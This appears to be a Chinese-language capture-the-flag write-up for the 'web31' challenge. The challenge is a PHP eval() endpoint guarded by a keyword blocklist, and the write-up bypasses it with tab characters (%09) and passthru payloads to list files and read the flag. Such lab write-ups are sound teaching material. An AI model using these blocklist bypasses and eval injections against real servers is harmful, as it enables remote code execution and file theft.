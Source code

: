 # web31

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

只要不触发关键词匹配导致拦截就可以

空格匹配的话，可以尝试使用`%09`也就是`Tab`来进行替换

```plaintext
https://39bfaef5-681e-432f-9797-5d74465f2b7f.challenge.ctf.show/?c=passthru("ls%09-lh");
```

![img](img/image_20250222-182228.png)

那剩下的就很容易了

```bash
https://39bfaef5-681e-432f-9797-5d74465f2b7f.challenge.ctf.show/?c=passthru("head%09-n%0920%09fla*");

head -n 20 fla*
```

![img](img/image_20250223-182341.png)
